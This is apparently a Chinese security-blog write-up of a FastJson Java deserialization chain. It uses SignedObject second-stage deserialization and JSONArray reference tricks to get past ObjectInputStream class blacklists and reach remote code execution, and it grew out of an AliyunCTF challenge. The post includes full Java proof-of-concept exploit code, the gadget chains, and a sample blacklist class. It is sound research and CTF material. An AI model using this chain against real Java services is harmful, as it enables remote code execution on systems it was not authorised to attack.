



# FastJson 结合二次反序列化绕过黑名单 - 先知社区

FastJson 结合二次反序列化绕过黑名单


#### 省流

该利用链可以在`fastjson`多个版本实现`RCE`，并且借助`SignedObject`绕过第一层安全的`resolveClass`对于`TemplatesImpl`类的检查。

条件如下：

1.  `ObjectInputStream`（反序列化）输入数据可控
2.  引入`Fastjson`依赖

#### FastJson 之不安全的反序列化利用

说起来还是`AliyunCTF`那道`ezbean`的非预期，很多师傅使用`FastJson#toString`方法触发`TemplatesImpl#getOutputProperties`实现`RCE`。

**gadget**

```bash
BadAttributeValueExpException#readObject
JSONArray#toString
TemplatesImpl#getOutputProperties
```

`FastJson`反序列化并不是通过`ObjectInputStream.readObject()`还原对象，而是在反序列化的过程中自动调用类属性的`setter/getter`方法，将`JSON`字符串还原成对象。

因此从`FJ 1.2.49`开始，`JSONArray`和`JSONObject`开始重写了`resolveClass`，过滤了诸如`TemplatesImpl`的危险类。而`ezbean`那道题使用了一个不安全的`ObjectInputStream`进行反序列化。

这也就导致了选手通过引用的数据类型从而不执行`resolveClass`以绕过其对危险类的检查，导致了非预期。

**exp**

```bash
List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);           //此时在hash表中查到了映射，因此接下来以引用形式输出

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd,"val",jsonArray);
        list.add(bd);
        //字节
        byte[] payload = SerializerUtils.serialize(list);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
```

#### 问题

似乎这样的方式只能在目标环境使用了一个不安全的`ObjectInputStream`的场景下应用。

因为`templates`是以引用的形式来绕过`FJ`的`resolveClass`方法的黑名单检查，因此在（见`exp`第三行）必须把`templates`添加到`list`中，所以如果重写了`ObjectInputStream`过滤`templates`，这样的方法就失效了。

```bash
public class MyInputStream extends ObjectInputStream {
    private final List<Object> BLACKLIST = Arrays.asList("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "com.sun.syndication.feed.impl.ObjectBean", "import com.sun.syndication.feed.impl.ToStringBean");

    public MyInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
    }

    protected Class<?> resolveClass(ObjectStreamClass cls) throws ClassNotFoundException, IOException {
        if (this.BLACKLIST.contains(cls.getName())) {
            throw new InvalidClassException("The class " + cls.getName() + " is on the blacklist");
        } else {
            return super.resolveClass(cls);
        }
    }
}
```

解决方案也很简单，就是通过二次反序列化绕过。

#### SignedObject

简单介绍下`SignedObject`，摘录自[Poria 师傅博客](https://tttang.com/archive/1701/#toc_equalsbean)

当防御者重写了`ObjectInputStream`类，并且再`resolveClass`方法定义了反序列化黑名单类时，此时就需要通过二次反序列化绕过。

顾名思义，**二次反序列化攻击就是在受害服务器进行第一次反序列化的过程中借助某些类的方法进行第二次反序列化。**而第二次反序列化是没有`ban`恶意类的，通过这种方法间接的实现`bypass`黑名单。

阅读该类注释可知这个类可以存放一个序列化数据并且有一个属于该数据的签名。

```bash
More specifically, a SignedObject contains another Serializable object, the (to-be-)signed object and its signature.
```

再观察`getObject`方法，可以看到其中进行了一次反序列化，这完美符合了我们的要求，并且该类是`jdk`内置类。

事实上，该类主要用于加密反序列化数据，防止攻击者截获数据包从而解析序列化数据（竟然有些讽刺）。

```bash
/**
     * Retrieves the encapsulated object.
     * The encapsulated object is de-serialized before it is returned.
     *
     * @return the encapsulated object.
     *
     * @exception IOException if an error occurs during de-serialization
     * @exception ClassNotFoundException if an error occurs during
     * de-serialization
     */
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

而要反序列化的`this.content`可以通过构造方法赋值，并且该方法是一个相对容易触发的`getter`方法，所以**问题转化为了如何触发 SignedObject#getObject。**

#### 解决方案

最好找只依赖于`FastJson`的包的`gadget`，使得攻击面最大。

而正好`JsonObject#toString`可以触发任意`getter`方法，而`toString`又可以通过`BadAttributeValueExpException#readObject`调用，因此整条链子就通了。

**gadget**

```bash
* 绕过第一次的 TemplatesImpl 黑名单检查
    BadAttributeValueExpException#readObject
    JSONOBJECT#toString
    SignedObject#getObject
* 二次反序列化
    * 引用绕过 JSON 自带 resolveClass 的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

**exp**

```bash
package gadget.fastjson;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import gadget.doubleunser.MyInputStream;
import util.GadgetUtils;
import util.ReflectionUtils;
import util.SerializerUtils;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.ArrayList;
import java.util.List;

public class FJ2 {
    public static void main(String[] args) throws Exception{

        List<Object> list = new ArrayList<>();

        TemplatesImpl templates = GadgetUtils.createTemplatesImpl("calc");

        list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测

        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);           //此时在handles这个hash表中查到了映射，后续则会以引用形式输出

        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd2,"val",jsonArray2);

        list.add(bd2);

        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) list, kp.getPrivate(), Signature.getInstance("DSA"));

        //触发SignedObject#getObject
        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);

        BadAttributeValueExpException bd1 = new BadAttributeValueExpException(null);
        ReflectionUtils.setFieldValue(bd1,"val",jsonArray1);

        //验证
        byte[] payload = SerializerUtils.serialize(bd1);

        ObjectInputStream ois = new MyInputStream(new ByteArrayInputStream(payload));  //再套一层inputstream检查TemplatesImpl，不可用
        ois.readObject();

    }
}
```

#### 调试

通过`SingedObject`绕过了黑名单对于`Templates`的校验。触发`BadAttributeValueExpException#readObject`，通过`gf.get`获取`JsonArray`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613164356-6eeb4668-09c6-1.png)

从`JSON#toString`触发`JSON#toJSONString`，并在下图断点处`getter`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613164513-9d131a16-09c6-1.png)

进入到`JSONSerializer#write`方法，首先获取`object`的类名，随后，将触发`ListSerializer`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613164537-aae3b100-09c6-1.png)

接下来触发`ListSerializer#write`一段很长的方法，主要就是进入到`for`循环把`list`的东西取出来进行后续操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613164645-d3a0017a-09c6-1.png)

后面比较复杂，总之就是通过`createJavaBeanSerializer`创建`ObjectSerializer`对象。通过`ASM`技术创建目标类（在这里是`SignedObject`）进行后续的处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613164912-2b39d26c-09c7-1.png)

进入到了`ASMSerializerFactory#generaterWriteMethod`，可以看到他就是把`SignedObject`重构出来了。获取到该类的三个字段并一个一个触发对应的`getter`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613165058-6a83a254-09c7-1.png)

最终触发了`SignedObject#getObject`进行了二次反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613165133-7f7429b8-09c7-1.png)

同样的，通过了`JSONArray#toString`最终通过`ASMSerializerFactory#_get`触发`TemplatesImpl#getOutputProperties`方法实现`RCE`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613165202-907145ca-09c7-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230613165244-a9af4e74-09c7-1.png)

#### 结语

`fastjson`的利用往往通过`parseObject`触发反序列化，此次探索是在`readObject`反序列化场景下进行。真实场景下不太了解，emm 可能在`ctf`中可以通过这条链子打个非预期吧。

由于笔者水平不高，希望师傅们多多指正。

#### 参考文献

1.  [二次反序列化 看我一命通关-Ploria](https://tttang.com/archive/1701/#toc_equalsbean)
2.  [FastJson 与原生反序列化 (二)-Y4tacker](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)
3.  [AliyunCTF 官方 writeup-f1yyy](https://xz.aliyun.com/t/12485)
